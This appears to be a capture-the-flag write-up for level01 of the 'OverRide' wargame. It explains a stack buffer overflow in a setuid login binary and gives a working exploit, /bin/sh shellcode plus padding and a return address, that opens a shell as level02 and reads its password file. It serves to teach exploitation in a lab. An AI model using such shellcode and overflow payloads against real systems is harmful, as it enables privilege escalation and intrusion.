


# LEVEL01

## 1. Inspect The Executable

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with **`level02` privileges**.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: username
verifying username....

nope, incorrect username...

level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
verifying username....

nope, incorrect username...

level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
verifying username....

nope, incorrect username...

```

The program asks for a username and there is no sign of overflow possible at first sight.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 3 functions : `main`, `verify_user_name`, `verify_user_pass`.

### Program Behavior

#### main function

The `main` function ask for a username and verify it with `verify_user_name()`. Ff the username is valid, it ask a password and verify it with `verify_user_pass()`. But in anyway the program will print `"nope, incorrect password..."` and return `1`;
Each time, the `fgets` made to get the user input are with a limited size of `0x100` (256 bytes in decimal). 

#### verify_user_name function

The `verify_user_name` function compare the username given by the user to `"dat_wil"`. But its only check if the `7` first bytes is equal to this string. The following character of the username are not check.

#### verify_user_pass function

The `verify_user_pass` function compare the pass given by the user to `"admin"`. But its only check if the `5` first bytes is equal to this string. The following character of the pass are not check.

## 3. Identify The Vulnerability

First we can see that this `fgets(local_54,100,stdin)` call for the password is with a size of `256 bytes` but the `local_54` is only of a size of `64 bytes`. A buffer overflow is possible.

---

### Stack Overflow Explaination

A **Stack Overflow Attack** consists of **writing more data** than the allocated space of a **local variable on the stack**, allowing us to overwrite critical values such as saved registers.

### Stack Understanding

To understand the buffer overflow, we need to **understand how the stack works**.

The **stack** is a memory area organized as **FILO** (First In, Last Out).
On x86 architectures, the stack grows from high addresses to low addresses.

At each function call, the stack frame contains:

- The **saved EIP** (Instruction Pointer), which points to the **next instruction** of the caller (4 bytes, located at EBP+4).
- The **saved EBP** (Base Pointer) of the **caller** (4 bytes, located at EBP).
- The current function **sets EBP** to point to the **new stack frame**.
- **Space** allocated for **local variables** by adjusting **ESP**.

This means that **local variables** are located **below the saved EBP**, and **overflowing** them allows us to **overwrite** the **saved EBP** and then the **saved EIP**.



---

Terminology:
- **Caller**: The function that calls another function.
- **Callee**: The function that is being called.

---

The main difficulty here is deciding **where to redirect execution**. There is **no internal function** that directly **spawns a shell**.
To solve this, we use an **external payload** called `shellcode`.

### Shellcode Explaination

A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal. It is not human-readable, and it is **executable by the CPU**. Like this following example :

```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

(This one was taken form [shell-storm](https://shell-storm.org/shellcode/files/shellcode-841.html).)

---

### Found the Offset

Using `gdb`, we can get the address of the segfault, and with a specific pattern payload we can easily get the offset. Here a example of payload:

```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

In gdb:

```bash
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
```

`0x75` is 117 in decimal and `u` in ASCII. So we got a offset of `80 bytes`.

We can deduce this payload format :

```
[shellcode] [padding] [new EIP]
└────┬────┘ └───┬───┘ └───┬───┘
	 21			59		  4
└─────────┬─────────┘
	  	  80 
└──────────────┬──────────────┘
		   	   84
```

---

We need to found the address of the password string, we can use `ltrace` to this the function call with their arguments and return value.

```bash
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                     = 39
printf("Enter Username: ")                                      = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n"verifying username....

)                                = 24
puts("Enter Password: "Enter Password: 
)                                        = 17
fgets(test
"test\n", 100, 0xf7fcfac0)                                = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)                           = 29
+++ exited (status 1) +++
```

The return address of the password `fgets` is `0xffffd6ec`.
We need to put it in little endian :
```
\xec\xd6\xff\xff
```

We can also reverse it direclty in the python command with this regex expression `[::-1]` :
```
> python3 -c 'print("\xff\xff\xd6\xec"[::-1])'
\xec\xd6\xff\xff
```

### Create The Payload

```bash
python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'a' * 59 + '\xec\xd6\xff\xff"'
```

And we need to put the username to:

```bash
python -c 'print "dat_wil"'; sleep 1; python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'a' * 59 + '\xec\xd6\xff\xff"'
```

### Overflow Visualization




## 4. Capture The Flag

```bash
level01@OverRide:~$ (python -c "print 'dat_wil'"; sleep 1; python -c "print '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'a' * 59 + '\xec\xd6\xff\xff'"; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
XXX
exit
```

`cat` here allow to keep `stdin` open after the payload injection, to use the shellcode.
